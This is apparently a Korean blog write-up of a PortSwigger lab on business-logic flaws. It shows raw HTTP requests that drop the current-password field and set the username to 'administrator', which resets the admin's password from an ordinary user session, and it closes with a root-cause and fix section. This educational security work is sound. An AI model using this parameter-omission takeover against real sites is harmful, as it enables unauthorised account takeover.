



+++
date = '2026-08-28T20:30:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Weak isolation on dual-use endpoint'
summary = "비밀번호 변경 요청에서 current-password를 제거하고 username을 바꿔 관리자 계정의 비밀번호를 변경하는 Business Logic 풀이"
toc = true
tags = ["Business Logic", "Password Change", "Access Control", "PortSwigger", "Practitioner"]
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [Weak isolation on dual-use endpoint](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-weak-isolation-on-dual-use-endpoint)

> 

사용자 입력으로 권한 수준을 판단하는 계정 관리 기능에 결함이 있다. `administrator` 계정에 접근해 `carlos`를 삭제하면 문제가 해결된다. 실습 계정은 `wiener:peter`다.

### Business Logic 진단

먼저 실습 계정으로 로그인하면 My account 페이지에 비밀번호 변경 기능이 있다.



변경 요청에는 현재 비밀번호와 새 비밀번호뿐 아니라 대상 계정의 `username`도 포함된다.

```http
POST /my-account/change-password HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<session>
Content-Type: application/x-www-form-urlencoded

csrf=<csrf>&username=wiener&current-password=peter&new-password-1=peter&new-password-2=peter
```

`current-password`에 틀린 값을 넣으면 `Current password is incorrect`가 출력된다. 그런데 **파라미터 자체를 제거하면** 현재 비밀번호를 제공하지 않아도 변경이 성공한다.

틀린 값과 누락된 값을 다르게 처리하는 것이다. 현재 비밀번호 검증을 생략할 수 있고, 변경 대상도 `username`으로 지정하므로 두 조건을 함께 바꿔 본다.

---

## 익스플로잇

`current-password`를 완전히 제거하고 `username`을 `administrator`로 변경한다. 새 비밀번호는 실습에서 사용한 `peter`로 지정한다.

```http
POST /my-account/change-password HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<session>
Content-Type: application/x-www-form-urlencoded

csrf=<csrf>&username=administrator&new-password-1=peter&new-password-2=peter
```

일반 사용자 세션으로 보낸 요청이 관리자 계정에 적용된다. 로그아웃한 뒤 `administrator:peter`로 로그인하고, 관리자 패널에서 `carlos`를 삭제하면 문제가 해결된다.



---

## 정리

같은 엔드포인트가 현재 비밀번호를 확인하는 변경 흐름과 이를 생략하는 흐름을 함께 처리하면서, 두 경로를 권한으로 분리하지 않았다. 클라이언트가 필드 하나를 빼는 것만으로 더 강한 권한이 필요한 동작에 도달한다.

현재 비밀번호가 없는 요청을 허용하려면 서버가 먼저 별도의 권한을 확인해야 한다. 일반 사용자의 변경 대상도 세션에서 결정해야 하며, `username`을 바꿨다는 이유만으로 다른 계정에 적용해서는 안 된다. 이런 누락값 비교는 [Business Logic Playbook](/playbook/business-logic/)의 진단 흐름에서도 다룬다.
